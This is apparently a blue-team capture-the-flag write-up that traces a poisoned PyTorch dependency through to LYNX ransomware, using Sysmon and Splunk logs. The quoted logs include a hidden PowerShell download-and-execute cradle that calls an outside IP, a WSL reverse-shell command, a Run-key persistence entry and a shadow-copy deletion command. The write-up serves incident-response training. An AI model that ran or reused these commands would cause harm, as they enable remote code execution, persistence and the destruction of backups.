

# Poisoned PyTorch: Supply Chain Intrusion to Ransomware



# Context

**Lab link**: [https://cyberdefenders.org/blueteam-ctf-challenges/poisoned-pytorch/](https://cyberdefenders.org/blueteam-ctf-challenges/poisoned-pytorch/)

**Suggested Tools**: CyberChef, Splunk, IDA, PEStudio

**Tactics**: Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Impact

# Scenario

On 2 February 2026 (UTC), a developer at unucorb executed a model training script from Visual Studio Code on `PC01` as part of an internal AI/ML project. Unbeknownst to the user, a trusted third-party Python dependency within the project had been tampered with, resulting in silent code execution and the establishment of remote access on the workstation.

Your objective is to analyze the provided SIEM telemetry and host-based artifacts to reconstruct the end-to-end intrusion timeline, determine how initial access was achieved, track attacker activity across the domain, and identify pre-encryption behavior and ransomware impact used to maximize damage.

# Initial Access

Q1- Process execution telemetry on `PC01` shows a developer running a Python training script from Visual Studio Code shortly before malicious activity begins; what is the name of the AI/ML project directory from which this execution originated?

Answer: `torch-inference-stack`

Explanation: The developer stored the project repository in this folder and ran `PyTorch` inference and training code at `01:17 AM`, including project dependencies, from that location. System Monitor (`Sysmon`) is a Windows event logging utility that records detailed process creation telemetry. The `Sysmon` process creation event shows `python.exe` running with the current working directory set to `torch-inference-stack`, which confirms the execution originated from that project path where the training script `train.py` ran. This activity aligns with Execution via Command and Scripting Interpreter (`T1059`).

```bash
The following information was included with the event:
technique_id=T1036,technique_name=Masquerading
2026-02-02 01:17:00.027
{c73af8d8-fb0c-697f-ef02-000000005600}
10788
C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe
3.12.9
Python Software Foundation
python.exe
"C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe" c:/Users/michelvic/torch-inference-stack/training/train.py
C:\Users\michelvic\torch-inference-stack\
UNUCORB\michelvic

```


Q2- During analysis of the suspicious process chain, investigators identified a Visual Studio Code Python language server component running immediately before the hidden PowerShell download cradle; what was the component name and version shown in the execution chain?

Answer: `jedilsp 3.12.9`

Explanation: The `jedilsp` library at `01:15:51 AM` is the Visual Studio Code Python extension's Jedi-based Language Server Protocol (LSP) backend process. LSP services provide editor features in Visual Studio Code, including `autocomplete`, `go-to-definition`, `hover` type information, and diagnostics. The `jedilsp` process analyzes Python source code and returns results to Visual Studio Code over LSP. In this execution chain, `jedilsp` ran immediately before the hidden PowerShell download cradle, which supports the process sequencing observed during investigation. A PowerShell download cradle is a short PowerShell one-liner or stub that retrieves a next-stage script or payload from a Uniform Resource Locator (URL) or file share and then executes it, often in memory. Common patterns include `IEX (New-Object Net.WebClient).DownloadString(...)` and `Invoke-WebRequest ... | IEX`. This behavior aligns with PowerShell execution and staged payload retrieval.

```bash
The following information was included with the event:
technique_id=T1083,technique_name=File and Directory Discovery
2026-02-02 01:15:51.916
{c73af8d8-fac7-697f-8b02-000000005600}
14876
C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe
3.12.9
Python Software Foundation
python.exe
C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe c:\Users\michelvic\.vscode\extensions\ms-python.python-2026.0.0-win32-x64\python_files\lib\jedilsp\jedi\inference\compiled\subprocess\__main__.py c:\Users\michelvic\.vscode\extensions\ms-python.python-2026.0.0-win32-x64\python_files\lib\jedilsp 3.12.9
c:\Users\michelvic\torch-inference-stack\
UNUCORB\michelvic
C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe
C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe c:\Users\michelvic\.vscode\extensions\ms-python.python-2026.0.0-win32-x64\python_files\run-jedi-language-server.py
```


# Execution

Q3- To confirm the origin of the intrusion, execution logs were reviewed to identify the script responsible for initiating the malicious chain of events; what is the full file path of that script on `PC01`?

Answer: `c:/Users/michelvic/torch-inference-stack/training/train.py`

Explanation: At `01:17:00 AM`, the Python script `train.py` executed from the previously identified training directory. This execution initiated the malicious process chain observed in the logs, which is consistent with Execution via Command and Scripting Interpreter (`T1059`). The lab scenario indicates that a trusted third-party Python dependency used by the project was tampered with, so `train.py` served as the entry point that triggered the poisoned dependency during runtime.

```bash
The following information was included with the event:
technique_id=T1036,technique_name=Masquerading
2026-02-02 01:17:00.027
{c73af8d8-fb0c-697f-ef02-000000005600}
10788
C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe
3.12.9
Python Software Foundation
python.exe
"C:\Users\michelvic\AppData\Local\Programs\Python\Python312\python.exe" c:/Users/michelvic/torch-inference-stack/training/train.py
C:\Users\michelvic\torch-inference-stack\

```

Q4- Immediately after the training script was executed, a hidden PowerShell process launched a remote download cradle; at what exact time (UTC) did this initial malicious PowerShell command execute on `PC01`?

Answer: `2026-02-02 01:17:01`

Explanation: Immediately after the Python training script executed, `powershell.exe` launched with `-WindowStyle Hidden` at `2026-02-02 01:17:01` (UTC) and ran a remote download cradle to retrieve and execute the next-stage script. The `-WindowStyle Hidden` argument hides the PowerShell window to reduce user visibility while `IEX ((New-Object Net.WebClient).DownloadString('hxxp://54[.]93[.]78[.]216:80/a'))` runs. This behavior aligns with PowerShell (`T1059.001`).

```powershell
The following information was included with the event:
technique_id=T1059.001,technique_name=PowerShell
2026-02-02 01:17:01.417
{c73af8d8-fb0d-697f-f002-000000005600}
13848
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
10.0.19041.3996 (WinBuild.160101.0800)
Windows PowerShell
PowerShell.EXE
powershell.exe -NoProfile -WindowStyle Hidden -Command "IEX ((new-object net.webclient).downloadstring('hxxp://54.93.78.216:80/a'))"
C:\Users\michelvic\torch-inference-stack\
UNUCORB\michelvic
```


Q5- Network telemetry recorded outbound communication from `PC01` following the PowerShell download cradle; what remote IP address was contacted to retrieve the first-stage payload?

Answer: `54.93.78.216`

Explanation: Investigators extracted this Internet Protocol (IP) address from the preceding `powershell.exe` command line and corroborated it with the network telemetry at `01:43:58 AM`. The value `54[.]93[.]78[.]216` identifies the remote host that `PC01` contacted over Transmission Control Protocol (TCP) from source IP `10.10.11.92` and ephemeral port `58121` to destination port `80` to retrieve the first-stage payload. This activity aligns with Ingress Tool Transfer (`T1105`), because the host fetched a remote stage before subsequent execution. The `PC01` IP address is `10.10.11.92`.

```powershell
powershell.exe -NoProfile -WindowStyle Hidden -Command "IEX ((new-object net.webclient).downloadstring('hxxp://54.93.78.216:80/a'))"

The following information was included with the event:
technique_id=T1059.001,technique_name=PowerShell
2026-02-02 01:43:58.981
{c73af8d8-fb52-697f-fd02-000000005600}
12480
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
UNUCORB\michelvic
tcp
true
false
10.10.11.92
-
58121
-
false
54.93.78.216
-
80
-
```

# Discovery

Q6- Following initial access, the attacker performed reconnaissance to understand domain trust relationships from `PC01`; which native Windows binary was used to enumerate domain trusts?

Answer: `nltest.exe`

Explanation: At `2026-02-02 01:43` (UTC), the attacker ran the native Windows binary, living off the land binary (LOLbin), `nltest.exe` to enumerate domain trusts. Attackers use domain trust discovery to identify which domains trust each other so they can plan where to pivot next and which authentication paths might allow lateral movement. The event shows both `nltest.exe` and `nltestrk.exe` because the log records the executed image path (`C:\Windows\System32\nltest.exe`) and also captures a separate metadata field such as the embedded `OriginalFileName` value (`nltestrk.exe`) from the file version information, which can differ from the on-disk filename without indicating a second executed binary.

```powershell
The following information was included with the event:
technique_id=T1482,technique_name=Domain Trust Discovery
2026-02-02 01:43:59.380
{c73af8d8-015f-6980-5504-000000005600}
15428
C:\Windows\System32\nltest.exe
10.0.19041.5072 (WinBuild.160101.0800)
nltestrk.exe
"C:\Windows\system32\nltest.exe" /domain_trusts /all_trusts
```


# Persistence

Q7- To maintain persistence on the compromised workstation, a secondary payload was deployed for persistence; what is the filename of the persistent `DLL` dropped on `PC01`?

Answer: `updlate.dll`

Explanation: At `2026-02-02 01:47:34` (UTC), Sysmon Event ID `7` records `rundll32.exe` loading `C:\Users\michelvic\AppData\Roaming\updlate.dll` into the `rundll32.exe` process. The telemetry indicates that `rundll32.exe` acted as the loader and execution host for the suspicious `DLL`. Windows processes typically load required `DLL` modules via standard loader application programming interfaces (APIs), such as `LoadLibrary*`, so a direct `rundll32.exe`-based load is notable in this execution chain. This activity aligns more closely with Signed Binary Proxy Execution: Rundll32 (`T1218.011`) than with `DLL` Side-Loading (`T1574.002`), because the logs show explicit use of `rundll32.exe` to run a `DLL` payload rather than a legitimate application inadvertently loading a malicious `DLL` from an attacker-controlled path. `rundll32.exe` is a legitimate, signed Windows binary, often categorized as a living off the land binary (LOLBin), and some environments alert less aggressively on built-in binaries than on unknown executables.

```powershell
The following information was included with the event:
technique_id=T1574.002,technique_name=DLL Side-Loading
2026-02-02 01:47:34.201
{c73af8d8-0236-6980-7f04-000000005600}
16992
C:\Windows\System32\rundll32.exe
C:\Users\michelvic\AppData\Roaming\updlate.dll
```


## Suspicious Use of Trusted Windows Rundll32 Binary

Playbook Entry | T1574.002 — DLL Side-Loading | Tactic: Defense Evasion

**What happened**
The attacker dropped a malicious DLL (`updlate.dll`) into a user-writable path (`%AppData%\Roaming\`) and used `rundll32.exe` — a legitimate, Microsoft-signed Windows utility — to load and execute it. Because the running process is a trusted system binary, this can bypass detection tools that only inspect process names.

**Why rundll32.exe is abused**`rundll32.exe` exists solely to load a DLL and call one of its exported functions. Attackers use it as a proxy so the on-disk executable always looks legitimate; the malicious code lives entirely inside the DLL. This is a known LOLBin (Living Off the Land Binary) technique.

**Key evidence to collect**

- Sysmon Event ID 7 (`ImageLoad`): confirms `rundll32.exe` loaded the DLL — field shows the host process and the loaded module path.
- Sysmon Event ID 1 (`ProcessCreate`): reveals the full command line, including which DLL export was called.
- Windows Security Event 4688 (if enabled): corroborates process creation.

**Detection signals**

- `rundll32.exe` loading a DLL from a user-writable path (e.g., `AppData\Roaming\`)
- Unusual parent process spawning `rundll32.exe` (e.g., Office app, PowerShell, script host)
- Network connections originating from `rundll32.exe`
- DLL filename mimicking a legitimate binary (typosquatting, e.g., `updlate.dll`)

Sysmon Event ID 7 alone does not prove DLL side-loading in the strict sense — it proves a module was loaded into a process. Labs often label it T1574.002 when a trusted loader like `rundll32.exe` is used to execute a DLL from a suspicious path. Confirm with Event ID 1 for the full execution context.

Q8- Analysis of file creation activity shows that the persistent payload was stored in a user-writable directory commonly abused by malware; what is the full file path where this DLL was placed?

Answer: `C:\Users\michelvic\AppData\Roaming\updlate.dll`

Explanation: This value is taken directly from the preceding System Monitor (Sysmon) event details. `C:\Users\<user>\AppData\Roaming`, also known as the `%APPDATA%` environment variable, is commonly abused by malicious software because it is a per-user folder that standard users can write to without administrative rights. It blends in with normal application data, because many legitimate applications store configuration files and updates there. It also persists across logons and can roam with the user profile in some domain setups. Many environments monitor system directories more tightly than user profile paths, which makes new executable artifacts such as `.exe` files, dynamic-link library (DLL) files, and scripts placed under `AppData\Roaming` a frequent attacker staging location.

```powershell
C:\Users\michelvic\AppData\Roaming\updlate.dll
```

Q9- What is the SHA-256 hash of the persistent DLL on PC01?

Answer: `0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0`

Explanation: The Secure Hash Algorithm 256-bit (`SHA-256`) value is taken directly from the `Sysmon` event details referenced in the previous two questions.

```powershell
The following information was included with the event:
technique_id=T1574.002,technique_name=DLL Side-Loading
2026-02-02 01:47:34.201
{c73af8d8-0236-6980-7f04-000000005600}
16992
C:\Windows\System32\rundll32.exe
C:\Users\michelvic\AppData\Roaming\updlate.dll

SHA1=B764C031E826B97D557F63CE92C027D66A27443D,MD5=40F93787D303C4A9EEA5C8340B6472C2,SHA256=0829B7E5ABE2BAA6D7D001D4B69221D273D377C5E359E7A9C44F4D7A8EB214A0,IMPHASH=F73CB1B8999C7E79C50459B8E1F144F0
false
```

Q10- Review of the registry modification reveals the use of a benign-looking value name intended to blend in with legitimate software; what registry value name was used to persist the payload?

Answer: `Updater`

Explanation: The Sysmon registry event ID `13` at `01:48:39 AM` shows `powershell.exe` performing a `SetValue` action on the Run key path `HKU\S-1-5-21-3415631042-2785832853-3881933999-1167\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Updater`. In this notation, the final segment after `Run\` is the registry value name, which confirms the attacker used `Updater` as the benign-looking value name to blend in with legitimate software updates. The value data points to `rundll32.exe "C:\Users\michelvic\AppData\Roaming\updlate.dll",StartW`, which causes the dynamic-link library (DLL) to load at user logon, consistent with Registry Run Keys or Start Folder (`T1547.001`). When the system starts and the user signs in, Windows reads this `Run` key and launches the specified `rundll32.exe` command automatically, which re-executes the `updlate.dll` export (`StartW`) each time the profile loads and re-establishes persistence.

```powershell
The following information was included with the event:
technique_id=T1547.001,technique_name=Registry Run Keys / Start Folder
SetValue
2026-02-02 01:48:39.386
{c73af8d8-0274-6980-8804-000000005600}
8020
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
HKU\S-1-5-21-3415631042-2785832853-3881933999-1167\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Updater
rundll32.exe "C:\Users\michelvic\AppData\Roaming\updlate.dll",StartW
UNUCORB\michelvic
```


# Privilege Escalation

Q11- Before successfully escalating privileges, the attacker attempted to abuse an installed Windows feature that ultimately failed; which Windows feature was targeted during this privilege escalation attempt?

Answer: WSL

Explanation: WSL (Windows Subsystem for Linux) can be abused as a built-in living off the land mechanism to run Linux commands and tooling on a Windows host via `wsl.exe`. At `2026-02-02 02:02:09` (UTC), the attacker attempted to use WSL to spawn an interactive shell and create a reverse connection by running `cmd.exe /C wsl sh -i \>& /dev/udp/18.197.226.152/4242 0\>&1`. This launches WSL, starts `sh -i`, and redirects standard input, standard output, and standard error to a User Datagram Protocol (UDP) destination at `18.197.226.152:4242`. Because no corresponding Sysmon Event ID `3` network connection to `18.197.226.152` appears after this process creation, the reverse shell attempt likely failed. Common causes include WSL or a Linux distribution not being installed or running, `sudo` prompting for a password or failing, `/dev/udp` not being supported by the invoked shell, or egress controls blocking outbound traffic.

```powershell
The following information was included with the event:
technique_id=T1059.003,technique_name=Windows Command Shell
2026-02-02 02:02:09.298
{c73af8d8-05a1-6980-4905-000000005600}
14500
C:\Windows\System32\cmd.exe
10.0.19041.4355 (WinBuild.160101.0800)
Windows Command Processor
Microsoft® Windows® Operating System
Microsoft Corporation
Cmd.Exe
C:\Windows\system32\cmd.exe /C wsl sh -i >& /dev/udp/18.197.226.152/4242
c:\Users\michelvic\torch-inference-stack\
UNUCORB\michelvic
```

# Credential Access

Q12- After the failed privilege escalation attempt, filesystem searches revealed a deployment artifact containing exposed credentials; what is the name of the configuration file that contained cleartext administrator credentials?

Answer: `Unattend.xml`

Explanation: The decoded PowerShell script at `02:02:39 AM` shows the attacker checking a short list of common Windows deployment and operating system (OS) imaging files, including `Unattend.xml`, `sysprep.inf`, and `sysprep.xml`. These files often contain leftover plaintext or easily decryptable secrets, such as a local administrator password, domain join credentials, or autologon credentials. The script pipes the candidate paths into `Where-Object { Test-Path $_ }` to keep only paths that exist on the host. It then uses `ForEach-Object { Get-Item $_ }` to output file metadata, including name, path, timestamps, and size, so the attacker can quickly confirm which credential-bearing file is present, in this case `Unattend.xml`, before attempting to read or exfiltrate it.

```powershell
The following information was included with the event:
technique_id=T1059.001,technique_name=PowerShell
2026-02-02 02:02:39.432
{c73af8d8-05bf-6980-4c05-000000005600}
12624
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
10.0.19041.3996 (WinBuild.160101.0800)
Windows PowerShell
Microsoft® Windows® Operating System
Microsoft Corporation
PowerShell.EXE
powershell -nop -exec bypass -EncodedCommand IgBD..<SNIP>..=
```


# Lateral Movement

Q13- Using the recovered credentials, lateral movement activity was observed from PC01 to the domain controller; which type of connection was used to establish this initial connection?

Answer: RDP

Explanation: The Internet Protocol (IP) address of `PC01` is `10.10.11.92`, as shown in prior System Monitor (Sysmon) events. `DC01` logs show Remote Desktop Protocol (RDP) connection attempts from `PC01` to `DC01`, which confirms `RDP` as the initial lateral movement channel. The Internet Protocol (IP) address of `DC01` is `10.10.11.59`.

Q14- To maintain long-term access within the domain, the attacker created a rogue account designed to closely resemble a legitimate account; what was the name of this unauthorized domain account?

Answer: `welsam`

Explanation: The Windows Security log `Event ID 4720` shows Windows creating a new user account named `welsam` on the domain controller `DC01` at `03:15:18 AM`, and the event indicates the account was created in a disabled state. This entry is notable because `Event ID 4720` is the only user creation record observed in the Security log during the review window, which contains roughly half a million events, making this account creation an outlier worth investigating further.

```powershell
A user account was created.

Subject:
	Security ID:		S-1-5-21-3415631042-2785832853-3881933999-1166
	Account Name:		domain.admin
	Account Domain:		UNUCORB
	Logon ID:		0x9dd56d

New Account:
	Security ID:		S-1-5-21-3415631042-2785832853-3881933999-1168
	Account Name:		welsam
	Account Domain:		UNUCORB

Attributes:
	SAM Account Name:	welsam
	Display Name:		welsam maslew
	User Principal Name:	welsam@unucorb.local
	Home Directory:		-
	Home Drive:		-
	Script Path:		-
	Profile Path:		-
	User Workstations:	-
	Password Last Set:	1793
	Account Expires:		1793
	Primary Group ID:	513
	Allowed To Delegate To:	-
	Old UAC Value:		0x0
	New UAC Value:		0x15
	User Account Control:	
		Account Disabled
		%%2082
		%%2084
	User Parameters:	-
	SID History:		-
	Logon Hours:		<value not set>

Additional Information:
	Privileges		-
```

Q15- Shortly after account creation, privilege escalation activity was observed involving group membership changes; which privileged domain group was the rogue account added to?

Answer: `Domain Admins`

Explanation: Shortly after account creation, the new unauthorized user `welsam` was added to the highly privileged `Domain Admins` security group in Windows Security Event ID `4728` at `03:15:31 AM`, which escalated `welsam` to domain-wide administrative privileges and enabled full control over domain resources.

```powershell
A member was added to a security-enabled global group.

Subject:
	Security ID:		S-1-5-21-3415631042-2785832853-3881933999-1166
	Account Name:		domain.admin
	Account Domain:		UNUCORB
	Logon ID:		0x9dd56d

Member:
	Security ID:		S-1-5-21-3415631042-2785832853-3881933999-1168
	Account Name:		cn=welsam maslew,CN=Users,DC=unucorb,DC=local

Group:
	Security ID:		S-1-5-21-3415631042-2785832853-3881933999-512
	Group Name:		Domain Admins
	Group Domain:		UNUCORB

Additional Information:
	Privileges:		-
```

# Pre Encryption Operations and Ransomware Deployment

Q16- Prior to ransomware deployment, access to file infrastructure was established to maximize impact; at what time (UTC) was a successful RDP session initiated to `FILE-SERVER-01`?

Answer: `2026-02-02 04:17:07`

Explanation: Windows Security Event ID `4624` on `FILE-SERVER-01` confirms the successful Remote Desktop Protocol (RDP) session at `2026-02-02 04:17:07` (UTC). This event records a successful logon session, and Logon Type `10` indicates a `RemoteInteractive` logon consistent with RDP. The `Source Network Address` field shows `10.10.11.59` (`DC01`), which identifies the initiating host. Sysmon (System Monitor) network events that show connections to port `3389` can corroborate RDP traffic, but Event ID `4624` provides the authoritative successful session timestamp required for the challenge. 

**Side note on Sysmon versus Windows Security event interpretation**: Treat a “successful RDP session” as a successful Remote Desktop logon, not only a `TCP` connection to `3389`. Sysmon Event ID `3` and other network telemetry can confirm that `10.10.11.59` reached `10.10.11.110:3389`, but this does not prove that the session authenticated and created a logon session. The authoritative evidence is Windows Security Event ID `4624` with Logon Type `10` (`RemoteInteractive`) on `FILE-SERVER-01`, which is why `2026-02-02 04:17:07` matches the answer.

```powershell
An account was successfully logged on.

Subject:
	Security ID:		S-1-5-18
	Account Name:		FILE-SERVER-01$
	Account Domain:		UNUCORB
	Logon ID:		0x3e7

Logon Information:
	Logon Type:		10
	Restricted Admin Mode:	3
	Virtual Account:		No
	Elevated Token:		No

Impersonation Level:		Impersonation

New Logon:
	Security ID:		S-1-5-21-3415631042-2785832853-3881933999-1166
	Account Name:		domain.admin
	Account Domain:		UNUCORB
	Logon ID:		0xa10c85
	Linked Logon ID:		0xa10a20
	Network Account Name:	-
	Network Account Domain:	-
	Logon GUID:		{00000000-0000-0000-0000-000000000000}

Process Information:
	Process ID:		0x124
	Process Name:		C:\Windows\System32\svchost.exe

Network Information:
	Workstation Name:	FILE-SERVER-01
	Source Network Address:	10.10.11.59
	Source Port:		0

Detailed Authentication Information:
	Logon Process:		User32 
	Authentication Package:	Negotiate
	Transited Services:	-
	Package Name (NTLM only):	-
	Key Length:		0
```


Q17- What HTTP URI path was requested for the second-stage download on FILE-SERVER-01?

Answer: `/b`

Explanation: Because the command and control (C2) Internet Protocol (IP) address is already known, investigators can validate the next-stage download by reviewing System Monitor (Sysmon) telemetry on `FILE-SERVER-01`. The only relevant event at `2026-02-02 04:37:54` (UTC) shows `powershell.exe` requesting the Hypertext Transfer Protocol (HTTP) Uniform Resource Identifier (URI) path `/b` from `54.93.78.216`, which follows the earlier `/a` request observed on `PC01`.

```powershell
The following information was included with the event:
technique_id=T1059.001,technique_name=PowerShell
2026-02-02 04:37:54.202
{025867d9-2a22-6980-6a06-00000000b703}
5096
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
10.0.14393.206 (rs1_release.160915-0644)
Windows PowerShell
Microsoft® Windows® Operating System
Microsoft Corporation
PowerShell.EXE
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://54.93.78.216/b'))"
C:\Users\domain.admin\
UNUCORB\domain.admin
```


Q18- As part of pre-encryption operations, system recovery mechanisms were deliberately targeted; which built-in Windows utility was used to delete Volume Shadow Copies?

Answer: `vssadmin.exe`

Explanation: Investigators searched `Splunk` for Volume Shadow Copy Service (VSS) activity and confirmed that the attacker sabotaged system recovery mechanisms on `BACKUP-SERVER-01` at `04:14:02` AM.

```sql
# Splunk JSON result
{
	"Event": {
		"System": {
			"Provider": {
				"_Name": "Microsoft-Windows-Security-Auditing",
				"_Guid": "{54849625-5478-4994-A5BA-3E3B0328C30D}"
			},
			"EventID": "4688",
			"Version": "2",
			"Level": "0",
			"Task": "13312",
			"Opcode": "0",
			"Keywords": "0x8020000000000000",
			"TimeCreated": {
				"_SystemTime": "2026-02-02T04:14:02.403952200Z"
			},
			"EventRecordID": "470445",
			"Correlation": "",
			"Execution": {
				"_ProcessID": "4",
				"_ThreadID": "184"
			},
			"Channel": "Security",
			"Computer": "BACKUP-SERVER-01.unucorb.local",
			"Security": ""
		},
		"EventData": {
			"Data": [
				{
					"_Name": "SubjectUserSid",
					"__text": "UNUCORB\\domain.admin"
<SNIP>
				},
				{
					"_Name": "CommandLine",
					"__text": "\"C:\\Windows\\system32\\vssadmin.exe\" delete shadows /for=C: /quiet"
				<SNIP>
	}
}
```


Q19- During analysis of ransomware execution activity, process lineage revealed a process responsible for encryption "ransomware binary"; what is the full file path of this process?

Answer: `C:\Users\domain.admin\Documents\system recovery.exe`

Explanation: During the search for the ransomware binary, investigators found an unexpected artifact in an atypical location. The executable `system recovery.exe` was present at `C:\Users\domain.admin\Documents\` on `BACKUP-SERVER-01` at `04:31:52 AM`, which raised suspicion for several reasons: attackers rarely store executables in a user `Documents` directory, the filename uses a space and mimics a legitimate system component name consistent with masquerading, and the artifact resides under the `domain.admin` profile, a high-value account that attackers commonly target to obtain or maintain elevated privileges.

```sql
# Splunk search
index=* Computer="BACKUP-SERVER-01.unucorb.local" system recovery.exe

# Splunk output
{
	"Event": {
		"System": {
			"Provider": {
				"_Name": "Microsoft-Windows-Security-Auditing",
				"_Guid": "{54849625-5478-4994-A5BA-3E3B0328C30D}"
			},
			"EventID": "4689",
			"Version": "0",
			"Level": "0",
			"Task": "13313",
			"Opcode": "0",
			"Keywords": "0x8020000000000000",
			"TimeCreated": {
				"_SystemTime": "2026-02-02T04:31:52.986192100Z"
			},
			"EventRecordID": "480005",
			"Correlation": "",
			"Execution": {
				"_ProcessID": "4",
				"_ThreadID": "2684"
			},
			"Channel": "Security",
			"Computer": "BACKUP-SERVER-01.unucorb.local",
			"Security": ""
		},
		"EventData": {
			"Data": [
				{
					"_Name": "SubjectUserSid",
					"__text": "UNUCORB\\domain.admin"
				},
				{
					"_Name": "SubjectUserName",
					"__text": "domain.admin"
				},
				{
					"_Name": "SubjectDomainName",
					"__text": "UNUCORB"
				},
				{
					"_Name": "SubjectLogonId",
					"__text": "0x8ad38c"
				},
				{
					"_Name": "Status",
					"__text": "0x0"
				},
				{
					"_Name": "ProcessId",
					"__text": "0x1270"
				},
				{
					"_Name": "ProcessName",
					"__text": "C:\\Users\\domain.admin\\Documents\\system recovery.exe"
				}
			]
		},
		"_xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
	}
}
```

Q20- File creation and execution telemetry confirmed the presence of a ransomware executable deployed during the attack; what is the SHA-256 hash of this ransomware binary?

Answer: `EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC`

Explanation: Reviewing System Monitor (Sysmon) Event ID `7` (dynamic-link library (DLL) and image load telemetry) shows that at `04:31:06` the process `system recovery.exe` loaded its own image, and the event also records the `SHA-256` hash of the ransomware executable on `BACKUP-SERVER-01`.

```sql
index=* Computer="BACKUP-SERVER-01.unucorb.local" system recovery.exe source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" SHA256

{
	"Event": {
		"System": {
			"Provider": {
				"_Name": "Microsoft-Windows-Sysmon",
				"_Guid": "{5770385F-C22A-43E0-BF4C-06F5698FFBD9}"
			},
			"EventID": "7",
			"Version": "3",
			"Level": "4",
			"Task": "7",
			"Opcode": "0",
			"Keywords": "0x8000000000000000",
			"TimeCreated": {
				"_SystemTime": "2026-02-02T04:31:06.462592200Z"
			},
			"EventRecordID": "23562",
			"Correlation": "",
			"Execution": {
				"_ProcessID": "1928",
				"_ThreadID": "2500"
			},
			"Channel": "Microsoft-Windows-Sysmon/Operational",
			"Computer": "BACKUP-SERVER-01.unucorb.local",
			"Security": {
				"_UserID": "S-1-5-18"
			}
		},
		"EventData": {
			"Data": [
				{
					"_Name": "RuleName",
					"__text": "technique_id=T1574.002,technique_name=DLL Side-Loading"
				},
				{
					"_Name": "UtcTime",
					"__text": "2026-02-02 04:31:06.448"
				},
				{
					"_Name": "ProcessGuid",
					"__text": "{16C8DACB-288A-6980-6106-00000000B703}"
				},
				{
					"_Name": "ProcessId",
					"__text": "4720"
				},
				{
					"_Name": "Image",
					"__text": "C:\\Users\\domain.admin\\Documents\\system recovery.exe"
				},
				{
					"_Name": "ImageLoaded",
					"__text": "C:\\Users\\domain.admin\\Documents\\system recovery.exe"
				},
				{
				<SNIP>
				{
					"_Name": "Hashes",
					"__text": "SHA1=672553C79DB2A3859A8EA216804D4FF8D2DED538,MD5=7E851829EE37BC0CF65A268D1D1BAA7A,SHA256=EAA0E773EB593B0046452F420B6DB8A47178C09E6DB0FA68F6A2D42C3F48E3BC,IMPHASH=B236E3A7E5FEC7DF716FB0039D0FCA72"
				},
				{
			<SNIP>
					"_Name": "User",
					"__text": "UNUCORB\\domain.admin"
				}
			]
		},
		"_xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
	}
}
```

Q21- Based on the recovered SHA-256 hash, which ransomware family does this sample belong to?

Answer: LYNX

Explanation: Basic open source intelligence (OSINT) search on VirusTotal reveals the ransomware family that this sample belongs to: `virustotal.com/gui/file/eaa0e773eb593b0046452f420b6db8a47178c09e6db0fa68f6a2d42c3f48e3bc/detection`


Q22- Basic Static analysis of the ransomware sample shows reliance on native Windows cryptographic functionality during file encryption; which Windows cryptography DLL was loaded and used by the ransomware?

Answer: `CRYPT32.dll`

Explanation: The ransomware sample is located at `C:\Users\Administrator\Desktop\Start Here\Artifacts\DC0\DC0\C\Users\domain.admin\Documents\system recovery.exe`. Opening the executable in `PEStudio` shows the loaded libraries, including the Windows cryptography dynamic-link library (DLL) `CRYPT32.dll` used during encryption.


Q23- Analysts identified major code similarity between the ransomware used in this attack and another ransomware family. What is the name of that family?

Answer: INC ransomware

Explanation: Public cybersecurity analyst reports describe the direct relationship between the `LYNX` ransomware family and the `INC` ransomware family. Reference: `hxxps://www[.]picussecurity[.]com/resource/blog/lynx-ransomware`.

> *Lynx ransomware, a rebranded and advanced variant of the earlier INC ransomware, has quickly established itself as a significant threat in the cybersecurity landscape. Operating under a Ransomware-as-a-Service (RaaS) model, Lynx employs sophisticated tactics such as double extortion and advanced encryption to target industries across the U.S. and UK.*
> 


Q24- Ransom note analysis revealed both victim-specific tracking information and attacker contact instructions; what unique identifier was assigned to the victim, and which email address was provided for negotiation?

Answer: `66a204aee7861ae72f21b4e0`, `martina.lestariid1898@proton.me`

Explanation: The attacker spread the ransom note across the network as `README.txt`. Analysts can open any copy of `README.txt` to identify the victim's unique identifier and the email address used for negotiation.


# Lab Insights

- This scenario shows why dependency trust is a security boundary. A single poisoned third-party library can turn normal developer activity into an initial access path without exploits.
- Process telemetry is often the cleanest starting point for reconstruction. A reliable chain comes from `Sysmon` Event ID `1` (process create) paired with command lines, working directories, and parent-child relationships.
- “Successful remote access” needs an authentication artifact, not just a socket. `Sysmon` Event ID `3` can prove `TCP` connectivity to `3389`, but `Windows Security` Event ID `4624` with Logon Type `10` proves an interactive `RDP` logon session.
- Living off the land is a consistency signal. Repeated use of built-in binaries and utilities (`powershell.exe`, `rundll32.exe`, `nltest.exe`, `vssadmin.exe`) is often more important than any single executable name.
- Persistence stood out because it blended into common user-writable locations and autostart mechanisms. `AppData\Roaming` plus a `Run` key value is a simple and repeatable pattern to hunt.
